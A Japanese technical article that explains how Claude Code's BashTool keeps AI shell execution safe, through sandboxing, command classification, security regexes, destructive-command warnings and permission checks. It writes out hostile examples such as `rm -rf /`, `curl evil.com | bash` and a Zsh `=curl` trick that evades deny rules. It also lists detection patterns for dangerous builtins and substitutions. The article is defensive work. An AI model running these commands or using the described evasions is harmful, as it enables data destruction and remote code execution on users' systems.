


## 問題提起

AI にシェルコマンドを実行させることは、極めて危険な能力です。`rm -rf /` の一行でシステム全体を破壊できますし、`curl evil.com | bash` の一行で任意のリモートコードを実行できます。一見無害な `cat /dev/random` でさえプロセスをハングさせることがあります。

しかし、シェルコマンドは AI コーディングアシスタントにとって不可欠な能力でもあります。テストの実行、依存関係のインストール、ビルドの実行、Git 操作――これらはすべてシェルアクセスを必要とします。Claude Code の BashTool は「十分に強力」であることと「十分に安全」であることの間でバランスポイントを見つけなければなりません。

BashTool は Claude Code の中で最も複雑な単一ツールであり、そのソースコードは複数のファイル、数千行のコードにまたがっています。本記事では、その安全な実行アーキテクチャを深掘りします――サンドボックス機構からコマンド分類、タイムアウト管理からバックグラウンド実行まで。

---

## BashTool の入力モデル

```typescript
// src/tools/BashTool/BashTool.tsx:227-259
const fullInputSchema = lazySchema(() => z.strictObject({
  command: z.string().describe('The command to execute'),
  timeout: semanticNumber(z.number().optional()).describe(
    `Optional timeout in milliseconds (max ${getMaxTimeoutMs()})`
  ),
  description: z.string().optional().describe(
    'Clear, concise description of what this command does in active voice...'
  ),
  run_in_background: semanticBoolean(z.boolean().optional()).describe(
    'Set to true to run this command in the background...'
  ),
  dangerouslyDisableSandbox: semanticBoolean(z.boolean().optional()).describe(
    'Set this to true to dangerously override sandbox mode...'
  ),
  _simulatedSedEdit: z.object({
    filePath: z.string(),
    newContent: z.string()
  }).optional().describe('Internal: pre-computed sed edit result from preview')
}));

// _simulatedSedEdit は常にモデル向けスキーマから除外
const inputSchema = lazySchema(() => isBackgroundTasksDisabled
  ? fullInputSchema().omit({ run_in_background: true, _simulatedSedEdit: true })
  : fullInputSchema().omit({ _simulatedSedEdit: true })
);
```

6 つのフィールドのうち、`_simulatedSedEdit` は**内部フィールド**であり、モデルに公開されることはありません。これは sed 編集プレビューに使用されます。ユーザーが権限ダイアログで sed コマンドのプレビュー結果を承認した後、システムは事前計算された新しいファイル内容を直接書き込み、sed を再実行しません。これにより「プレビューで見たもの」と「実際に実行されるもの」の不一致を防ぎます。

`semanticNumber` と `semanticBoolean` は Claude Code 特有の Zod 型です。スキーマレベルで文字列形式の数値/ブール値（`"true"` や `"120000"` など）を受け入れ、AI がパラメータを文字列として送信するケースに対応しています。

---

## コマンド分類体系

BashTool はシェルコマンドを複数のセマンティックカテゴリに分類し、UI 表示と動作判断に使用します：



```typescript
// src/tools/BashTool/BashTool.tsx:60-81
const BASH_SEARCH_COMMANDS = new Set([
  'find', 'grep', 'rg', 'ag', 'ack', 'locate', 'which', 'whereis'
]);

const BASH_READ_COMMANDS = new Set([
  'cat', 'head', 'tail', 'less', 'more',
  'wc', 'stat', 'file', 'strings',
  'jq', 'awk', 'cut', 'sort', 'uniq', 'tr'
]);

const BASH_LIST_COMMANDS = new Set(['ls', 'tree', 'du']);

const BASH_SEMANTIC_NEUTRAL_COMMANDS = new Set([
  'echo', 'printf', 'true', 'false', ':'
]);

const BASH_SILENT_COMMANDS = new Set([
  'mv', 'cp', 'rm', 'mkdir', 'rmdir', 'chmod', 'chown',
  'chgrp', 'touch', 'ln', 'cd', 'export', 'unset', 'wait'
]);
```

### パイプラインと複合コマンドの分類

分類ロジックは単純に最初のコマンドだけをチェックするわけではありません。パイプライン（`cat file | grep pattern`）の場合、**すべての**部分が検索/読み取りコマンドでなければ、全体が検索/読み取りとして扱われません：

```typescript
// src/tools/BashTool/BashTool.tsx:94-172
export function isSearchOrReadBashCommand(command: string): {
  isSearch: boolean;
  isRead: boolean;
  isList: boolean;
} {
  let partsWithOperators: string[];
  try {
    partsWithOperators = splitCommandWithOperators(command);
  } catch {
    return { isSearch: false, isRead: false, isList: false };
  }

  // ... すべての部分を走査

  // セマンティック中立コマンド（echo, printf, true, false, :）は
  // どの位置にあってもスキップされます。これらは純粋な出力/ステータス
  // コマンドであり、パイプラインの読み取り/検索の性質に影響しません
  // 例：`ls dir && echo "---" && ls dir2` は依然として読み取りです
```

`echo` と `printf` は「セマンティック中立」としてマークされています。パイプライン内で全体のコマンドの読み取り/書き込み性質を変えません。`ls dir && echo "---" && ls dir2` は依然としてディレクトリ一覧コマンドとして扱われます。`echo` はセマンティクスに影響しないからです。

### コマンドのセマンティック解釈

異なるコマンドの終了コードには異なる意味があります。`grep` が 1 を返すのは「マッチが見つからなかった」という意味でありエラーではありません。`diff` が 1 を返すのは「ファイルに差異がある」という意味です。BashTool はセマンティックマッピングテーブルを通じてこれらの状況を正しく解釈します：

```typescript
// src/tools/BashTool/commandSemantics.ts:31-89
const COMMAND_SEMANTICS: Map<string, CommandSemantic> = new Map([
  // grep: 0=マッチあり, 1=マッチなし, 2+=エラー
  ['grep', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'No matches found' : undefined,
  })],

  // ripgrep は grep と同じセマンティクス
  ['rg', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'No matches found' : undefined,
  })],

  // diff: 0=差異なし, 1=差異あり, 2+=エラー
  ['diff', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'Files differ' : undefined,
  })],

  // test/[: 0=条件が真, 1=条件が偽, 2+=エラー
  ['test', (exitCode) => ({
    isError: exitCode >= 2,
    message: exitCode === 1 ? 'Condition is false' : undefined,
  })],
])
```

---

## サンドボックス機構

BashTool のサンドボックスは**オプションだが推奨される**セキュリティレイヤーで、コマンドがアクセスできるファイルやネットワークホストを制御します。

### サンドボックス判定フロー

```typescript
// src/tools/BashTool/shouldUseSandbox.ts:130-153
export function shouldUseSandbox(input: Partial<SandboxInput>): boolean {
  if (!SandboxManager.isSandboxingEnabled()) {
    return false
  }

  // 明示的にオーバーライドされ、かつサンドボックスなしコマンドが許可されている場合はサンドボックスを使用しない
  if (
    input.dangerouslyDisableSandbox &&
    SandboxManager.areUnsandboxedCommandsAllowed()
  ) {
    return false
  }

  if (!input.command) {
    return false
  }

  // コマンドがユーザー設定の除外コマンドに含まれている場合はサンドボックスを使用しない
  if (containsExcludedCommand(input.command)) {
    return false
  }

  return true
}
```

4 つの条件でサンドボックスをスキップできます：

1. サンドボックスがグローバルで無効
2. `dangerouslyDisableSandbox: true` かつポリシーがサンドボックスなしコマンドを許可
3. コマンドがない（空の呼び出し）
4. コマンドがユーザー設定の除外リストにマッチ

### 除外コマンドのマッチング

除外リストは権限ルールと同じパターン構文をサポートしています：

```typescript
// src/tools/BashTool/shouldUseSandbox.ts:71-127
  for (const subcommand of subcommands) {
    const trimmed = subcommand.trim()
    // 環境変数プレフィックスやラッパーコマンドを除去してもマッチを試みる
    // 例：`FOO=bar bazel ...` や `timeout 30 bazel ...` は `bazel:*` にマッチ
    const candidates = [trimmed]
    const seen = new Set(candidates)
    let startIdx = 0
    while (startIdx < candidates.length) {
      const endIdx = candidates.length
      for (let i = startIdx; i < endIdx; i++) {
        const cmd = candidates[i]!
        const envStripped = stripAllLeadingEnvVars(cmd, BINARY_HIJACK_VARS)
        if (!seen.has(envStripped)) {
          candidates.push(envStripped)
          seen.add(envStripped)
        }
        const wrapperStripped = stripSafeWrappers(cmd)
        if (!seen.has(wrapperStripped)) {
          candidates.push(wrapperStripped)
          seen.add(wrapperStripped)
        }
      }
      startIdx = endIdx
    }
    // ... 各候補を除外パターンに対してマッチング
  }
```

ここでは**不動点反復**（fixed-point iteration）を使用して、環境変数とラッパーコマンドの交互出現を処理しています。`timeout 300 FOO=bar bazel run` の場合、まず `timeout 300` を除去し、次に `FOO=bar` を除去し、最後に `bazel` にマッチさせる必要があります。単一パスではこの交互出現を処理できません。

### サンドボックスのプロンプト注入

サンドボックスが有効な場合、BashTool のプロンプトにサンドボックス制限情報が動的に注入されます：

```typescript
// src/tools/BashTool/prompt.ts:172-273
function getSimpleSandboxSection(): string {
  if (!SandboxManager.isSandboxingEnabled()) {
    return ''
  }

  const fsReadConfig = SandboxManager.getFsReadConfig()
  const fsWriteConfig = SandboxManager.getFsWriteConfig()
  const networkRestrictionConfig = SandboxManager.getNetworkRestrictionConfig()

  const filesystemConfig = {
    read: {
      denyOnly: dedup(fsReadConfig.denyOnly),
    },
    write: {
      allowOnly: normalizeAllowOnly(fsWriteConfig.allowOnly),
      denyWithinAllow: dedup(fsWriteConfig.denyWithinAllow),
    },
  }
  // ... 設定をシリアライズしてプロンプトに注入
}
```

`dedup` 関数の使用に注目してください。SandboxManager は複数のソース（settings 層、デフォルト値、CLI フラグ）から設定をマージする際に重複パスが生じる可能性があります。重複排除後にプロンプトに注入することで、約 150-200 トークンを節約できます。

---

## セキュリティチェック：bashSecurity.ts

BashTool のセキュリティチェックは、`bashSecurity.ts` に位置する多層防御システムです。

### コマンド置換の検出

```typescript
// src/tools/BashTool/bashSecurity.ts:16-41
const COMMAND_SUBSTITUTION_PATTERNS = [
  { pattern: /<\(/, message: 'process substitution <()' },
  { pattern: />\(/, message: 'process substitution >()' },
  { pattern: /=\(/, message: 'Zsh process substitution =()' },
  { pattern: /(?:^|[\s;&|])=[a-zA-Z_]/, message: 'Zsh equals expansion (=cmd)' },
  { pattern: /\$\(/, message: '$() command substitution' },
  { pattern: /\$\{/, message: '${} parameter substitution' },
  { pattern: /\$\[/, message: '$[] legacy arithmetic expansion' },
  { pattern: /~\[/, message: 'Zsh-style parameter expansion' },
  { pattern: /\(e:/, message: 'Zsh-style glob qualifiers' },
  { pattern: /\(\+/, message: 'Zsh glob qualifier with command execution' },
  { pattern: /\}\s*always\s*\{/, message: 'Zsh always block (try/always construct)' },
  { pattern: /<#/, message: 'PowerShell comment syntax' },
]
```

これらのパターンはさまざまな形式のコマンド置換を検出します。攻撃者は `$(malicious_command)` や Zsh の `=cmd` 展開を通じて悪意のあるコマンドを注入する可能性があります。Zsh の `=curl evil.com` は `/usr/bin/curl evil.com` に展開され、コマンド名ベースの deny ルールを回避することに注意してください。

### Zsh 危険コマンド

```typescript
// src/tools/BashTool/bashSecurity.ts:43-74
const ZSH_DANGEROUS_COMMANDS = new Set([
  'zmodload',   // 多くの危険なモジュールベース攻撃への入り口
  'emulate',    // -c フラグ付きの emulate は eval と同等
  'sysopen',    // 細粒度の制御でファイルを開く（zsh/system）
  'sysread',    // ファイルディスクリプタから読み取り
  'syswrite',   // ファイルディスクリプタへ書き込み
  'zpty',       // 擬似端末でコマンドを実行
  'ztcp',       // データ窃取用の TCP 接続を作成
  'zsocket',    // Unix/TCP ソケットを作成
  'zf_rm',      // zsh/files からの組み込み rm
  'zf_mv',      // zsh/files からの組み込み mv
  // ... その他の zsh ビルトイン
])
```

`zmodload` が最も危険です。`zsh/system`（ファイル権限チェックの回避）、`zsh/zpty`（擬似端末実行）、`zsh/net/tcp`（ネットワーク経由のデータ窃取）などのモジュールをロードできます。Claude Code はこれらのコマンドを多層防御としてブロックしています。

### セキュリティチェック識別子

```typescript
// src/tools/BashTool/bashSecurity.ts:77-101
const BASH_SECURITY_CHECK_IDS = {
  INCOMPLETE_COMMANDS: 1,
  JQ_SYSTEM_FUNCTION: 2,
  JQ_FILE_ARGUMENTS: 3,
  OBFUSCATED_FLAGS: 4,
  SHELL_METACHARACTERS: 5,
  DANGEROUS_VARIABLES: 6,
  NEWLINES: 7,
  DANGEROUS_PATTERNS_COMMAND_SUBSTITUTION: 8,
  DANGEROUS_PATTERNS_INPUT_REDIRECTION: 9,
  DANGEROUS_PATTERNS_OUTPUT_REDIRECTION: 10,
  IFS_INJECTION: 11,
  GIT_COMMIT_SUBSTITUTION: 12,
  PROC_ENVIRON_ACCESS: 13,
  MALFORMED_TOKEN_INJECTION: 14,
  BACKSLASH_ESCAPED_WHITESPACE: 15,
  BRACE_EXPANSION: 16,
  CONTROL_CHARACTERS: 17,
  UNICODE_WHITESPACE: 18,
  MID_WORD_HASH: 19,
  ZSH_DANGEROUS_COMMANDS: 20,
  BACKSLASH_ESCAPED_OPERATORS: 21,
  COMMENT_QUOTE_DESYNC: 22,
  QUOTED_NEWLINE: 23,
} as const
```

23 種類のセキュリティチェックがあり、それぞれに数値 ID が付与されています（ログに文字列を記録するのを避けるため）。IFS インジェクションから Unicode 空白文字攻撃まで、広範な脅威面をカバーしています。

---

## 破壊的コマンドの警告

```typescript
// src/tools/BashTool/destructiveCommandWarning.ts:12-89
const DESTRUCTIVE_PATTERNS: DestructivePattern[] = [
  // Git ── データ損失 / 元に戻しにくい
  { pattern: /\bgit\s+reset\s+--hard\b/,
    warning: 'Note: may discard uncommitted changes' },
  { pattern: /\bgit\s+push\b[^;&|\n]*[ \t](--force|--force-with-lease|-f)\b/,
    warning: 'Note: may overwrite remote history' },
  { pattern: /\bgit\s+clean\b(?![^;&|\n]*(?:-[a-zA-Z]*n|--dry-run))[^;&|\n]*-[a-zA-Z]*f/,
    warning: 'Note: may permanently delete untracked files' },

  // ファイル削除
  { pattern: /(^|[;&|\n]\s*)rm\s+-[a-zA-Z]*[rR][a-zA-Z]*f/,
    warning: 'Note: may recursively force-remove files' },

  // データベース
  { pattern: /\b(DROP|TRUNCATE)\s+(TABLE|DATABASE|SCHEMA)\b/i,
    warning: 'Note: may drop or truncate database objects' },

  // インフラストラクチャ
  { pattern: /\bkubectl\s+delete\b/,
    warning: 'Note: may delete Kubernetes resources' },
  { pattern: /\bterraform\s+destroy\b/,
    warning: 'Note: may destroy Terraform infrastructure' },
]
```

これらの警告は**純粋に情報提供目的**であり、権限ロジックや自動承認に影響しません。権限ダイアログに表示され、ユーザーが情報に基づいた判断を下すのを助けます。`git clean` の正規表現は `--dry-run` と `-n` フラグを除外しています。ドライランは破壊的ではないからです。

---

## タイムアウト管理

BashTool には 3 層のタイムアウト制御があります：

```typescript
// src/tools/BashTool/prompt.ts:27-33
export function getDefaultTimeoutMs(): number {
  return getDefaultBashTimeoutMs()
}

export function getMaxTimeoutMs(): number {
  return getMaxBashTimeoutMs()
}
```

1. **デフォルトタイムアウト** ── 通常 120 秒（2 分）。大半のコマンドに適しています
2. **最大タイムアウト** ── 通常 600 秒（10 分）。AI は `timeout` パラメータでより長い時間を要求できます
3. **バックグラウンド実行** ── 長時間コマンドは `run_in_background: true` でバックグラウンドに移行可能

### バックグラウンド実行

```typescript
// src/tools/BashTool/BashTool.tsx:52-57
const PROGRESS_THRESHOLD_MS = 2000; // 2 秒後にプログレスを表示
const ASSISTANT_BLOCKING_BUDGET_MS = 15_000;
```

Assistant モードでは、ブロッキングコマンドは 15 秒後に自動的にバックグラウンド化されます。これにより、長時間実行されるビルドやテストがインタラクションループ全体をブロックすることを防ぎます。

バックグラウンドタスクには専用のライフサイクル管理があります：



自動バックグラウンド化が許可されないコマンドのブラックリストがあります。`sleep` コマンドはその一つです。通常は待機の前兆であり、バックグラウンド化すべきではないからです。

### プログレス表示

```typescript
// src/tools/BashTool/BashTool.tsx:54
const PROGRESS_THRESHOLD_MS = 2000; // 2 秒後にプログレスを表示
```

コマンドの実行が 2 秒を超えるとプログレス表示が開始されます。これにより、高速なコマンドに対する不要な UI ノイズを避けつつ、長時間コマンドがまだ実行中であることをユーザーに知らせます。

---

## 権限システムとの連携

BashTool の権限チェックはすべてのツールの中で最も複雑であり、`bashPermissions.ts` に位置しています。

### サブコマンドの分割

```typescript
// src/tools/BashTool/bashPermissions.ts:96-103
export const MAX_SUBCOMMANDS_FOR_SECURITY_CHECK = 50
export const MAX_SUGGESTED_RULES_FOR_COMPOUND = 5
```

複合コマンド（例：`mkdir -p src && touch src/index.ts && npm init`）はサブコマンドに分割され、各サブコマンドが独立して権限チェックを受けます。ただし上限があり、50 個のサブコマンドまでです。この数を超えると、システムはコマンドの安全性を証明できず、直接 `ask`（ユーザー確認の要求）にフォールバックします。

この制限の理由はソースコード内で説明されています。`splitCommand_DEPRECATED` は複雑な複合コマンドで指数関数的に増加するサブコマンド配列を生成する可能性があり、各サブコマンドが tree-sitter パースと約 20 個のバリデータを通過するため、イベントループが飢餓状態になります。

### Classifier ベースの権限

Claude Code は AI 分類器ベースの権限判断をサポートしています。パターンマッチングだけでなく、モデルを使用してコマンドの意図を理解します。このシステムは `bashPermissions.ts` の `classifyBashCommand` を通じて実装されており、内部バージョンでは分析用に評価結果が記録されます。

---

## プロンプトエンジニアリング：AI に正しいツールを使わせる

BashTool のプロンプトはツール自体の説明だけでなく、AI に専用ツールを優先使用するよう明確にガイドしています：

```typescript
// src/tools/BashTool/prompt.ts:280-291
const toolPreferenceItems = [
  `File search: Use ${GLOB_TOOL_NAME} (NOT find or ls)`,
  `Content search: Use ${GREP_TOOL_NAME} (NOT grep or rg)`,
  `Read files: Use ${FILE_READ_TOOL_NAME} (NOT cat/head/tail)`,
  `Edit files: Use ${FILE_EDIT_TOOL_NAME} (NOT sed/awk)`,
  `Write files: Use ${FILE_WRITE_TOOL_NAME} (NOT echo >/cat <<EOF)`,
  'Communication: Output text directly (NOT echo/printf)',
]
```

この「NOT X」という明示的な否定は「prefer Y」よりも効果的です。AI に何をすべきでないかを直接伝え、曖昧さを軽減しています。

### Git セーフティプロトコル

プロンプトには詳細な Git セーフティプロトコルが含まれています：

```typescript
// src/tools/BashTool/prompt.ts:82-93
// Git Safety Protocol:
// - NEVER update the git config
// - NEVER run destructive git commands (push --force, reset --hard, ...)
//   unless the user explicitly requests
// - NEVER skip hooks (--no-verify, --no-gpg-sign, etc)
// - NEVER run force push to main/master
// - CRITICAL: Always create NEW commits rather than amending
// - When staging files, prefer adding specific files by name
//   rather than "git add -A" or "git add ."
// - NEVER commit changes unless the user explicitly asks
```

これらのルールは提案ではなく、ハード制約です。「CRITICAL」とマークされたルール（amend ではなく常に新しい commit を作成する）は、実際のデータ損失リスクを解決しています。pre-commit hook が失敗した場合、commit は実行されておらず、この時点で `--amend` を使うと前の commit を変更してしまいます。

---

## スリープ検出

興味深い防護措置として、AI が `sleep` を使ったポーリングを阻止する仕組みがあります：

```typescript
// src/tools/BashTool/BashTool.tsx:322-337
export function detectBlockedSleepPattern(command: string): string | null {
  const parts = splitCommand_DEPRECATED(command);
  if (parts.length === 0) return null;
  const first = parts[0]?.trim() ?? '';
  const m = /^sleep\s+(\d+)\s*$/.exec(first);
  if (!m) return null;
  const secs = parseInt(m[1]!, 10);
  if (secs < 2) return null; // 2 秒未満の sleep は OK（レート制限、ペーシング用）

  const rest = parts.slice(1).join(' ').trim();
  return rest
    ? `sleep ${secs} followed by: ${rest}`
    : `standalone sleep ${secs}`;
}
```

2 秒未満の sleep は許可されています（レート制限用）が、それより長い sleep はブロックまたは警告されます。`sleep 5 && check_status` のようなパターンが検出された場合、システムは `run_in_background` や Monitor ツールの使用を提案します。

---

## Sed 編集プレビュー

BashTool は `sed` コマンドに対して特別な処理を行います。権限ダイアログで編集プレビューを表示できます：

```typescript
// src/tools/BashTool/BashTool.tsx:360-399
async function applySedEdit(
  simulatedEdit: { filePath: string; newContent: string },
  toolUseContext: SimulatedSedEditContext,
  parentMessage?: AssistantMessage
): Promise<SimulatedSedEditResult> {
  const { filePath, newContent } = simulatedEdit;
  const absoluteFilePath = expandPath(filePath);

  // VS Code 通知用に元の内容を読み取り
  let originalContent: string;
  try {
    originalContent = await fs.readFile(absoluteFilePath, { encoding });
  } catch (e) { /* ENOENT をハンドル */ }

  // 変更前にファイル履歴を追跡（元に戻す機能のサポート）
  if (fileHistoryEnabled() && parentMessage) {
    await fileHistoryTrackEdit(
      toolUseContext.updateFileHistoryState,
      absoluteFilePath,
      parentMessage.uuid
    );
  }

  // 改行コードを検出して新しい内容を書き込み
  const endings = detectLineEndings(absoluteFilePath);
  writeTextContent(absoluteFilePath, newContent, encoding, endings);
```

これにより、ユーザーが権限ダイアログで見た diff と実際に書き込まれる内容が完全に一致することが保証されます。sed の実行環境の違いにより異なる結果が生じることはありません。

---

## 設計から得られる教訓

BashTool の設計は、いくつかの重要な原則を体現しています：

1. **多層防御** ── サンドボックス、権限チェック、セキュリティモード検証、破壊的コマンド警告。各層は個別に失敗する可能性がありますが、すべての層が合わさることで堅牢な保護を提供します

2. **セマンティック理解** ── コマンド分類、終了コードの解釈、サイレントコマンドの識別。システムはコマンドを単に実行するだけでなく、コマンドのセマンティクスを理解しています

3. **段階的ポリシー** ── デフォルトでサンドボックスを使用し、条件付きでバイパスを許可。デフォルトタイムアウトは 2 分で、10 分まで延長可能。デフォルトはフォアグラウンド実行で、バックグラウンド化をサポート。各制約にエスケープハッチがあります

4. **複雑度バジェット** ── サブコマンド数の上限、セキュリティチェックの数値 ID、重複排除されたサンドボックスパス。複雑さが避けられない場合、システムは明確な複雑度バジェットを設定して暴走を防いでいます
